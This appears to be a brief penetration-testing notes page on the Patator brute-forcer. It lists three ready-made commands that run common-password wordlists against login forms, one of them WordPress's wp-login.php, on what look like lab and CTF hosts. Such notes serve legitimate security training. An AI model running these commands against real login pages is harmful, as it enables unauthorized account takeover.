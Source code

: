 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - Tooling
  - BruteForcing
---
```


Patator is a multi-purpose brute-forcer, with a modular design and a flexible usage.

# Commands

* `patator http_fuzz url=http://192.168.68.106/login method=POST body='{"username":"COMBO00","password":"COMBO01"}' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt  accept_cookie=1 follow=1 max_follow=2 -x ignore:fgrep='Unauthorized' header ='Content-Type: application/json'`
* `patator http_fuzz url=http://loly.lc/wordpress/wp-login.php method=POST body='log=loly&pwd=FILE0&wp-submit=Log+In&redirect_to=&testcookie=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -x ignore:fgrep=Error`
* `patator http_fuzz url=https://172.16.10.248:8081/lib/crud/userprocess.php method=POST body='user=admin&pass=COMBO00&sublogin=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt after_urls=https://172.16.10.248:8081/dashboard.php accept_cookie=1 follow=1 max_follow=2 -x ignore:clen=5878`

